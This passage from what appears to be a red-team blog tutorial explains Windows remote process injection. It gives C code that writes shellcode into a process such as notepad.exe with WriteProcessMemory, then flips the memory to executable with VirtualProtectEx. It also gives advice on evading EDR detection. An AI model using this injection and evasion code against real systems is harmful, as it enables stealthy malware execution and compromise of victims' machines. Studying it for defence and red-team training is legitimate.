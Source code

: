 
{% endhighlight %}

### WriteProcessMemory Block (Position 3)

With the memory region successfully allocated inside the remote process, the next step is to write our shellcode into it.

We’ll use the `WriteProcessMemory` API to copy our shellcode into the memory we previously reserved with `VirtualAllocEx`. This operation is straightforward: it simply pushes raw bytes (our payload) into the remote process’s address space.

At this point, there’s no execution involved — we’re merely placing the shellcode into memory. Since the memory is still marked as `PAGE_READWRITE`, this write operation shouldn't raise suspicion, especially in a benign process like `notepad.exe`.

{% highlight c %}
    INFO("Writing shellcode into remote process");

    if (!WriteProcessMemory(
        victimProcess,
        shellAddress,
        AbyssBird,
        sizeof(AbyssBird),
        NULL))
    {
        WARN("Failed to write memory. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Shellcode written to remote memory");
{% endhighlight %}

### VirtualProtectEx Block (Position 4)

Now that the shellcode has been written into memory, the next step is to change the protection on that region so it can be executed.

When we allocated the memory earlier, it was marked as `PAGE_READWRITE` — meaning the shellcode could be written to, but not executed. This is a common tactic to evade some basic detection mechanisms during the write phase.

To prepare the memory for execution, we use the `VirtualProtectEx` API to change the memory protection to `PAGE_EXECUTE_READ`. This allows the process to read from and execute the shellcode, but not write to it — a necessary condition for execution.

This change is a crucial part of the injection chain, and it’s also where many EDRs may pay closer attention. It’s one of the behavioral indicators that shellcode is about to be executed, so red teamers may consider applying more subtle permission-flipping techniques or even avoiding this API if they aim to stay low and slow.

{% highlight c %}
    INFO("Changing memory protection to PAGE_EXECUTE_READ (RW -> RX)");

    DWORD oldProtect = 0;
    if (!VirtualProtectEx(
        victimProcess,
        shellAddress,
        sizeof(AbyssBird),
        PAGE_EXECUTE_READ,
        &oldProtect))
    {
        WARN("Failed to change memory protection. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Memory protection changed successfully");
{% endhighlight %}
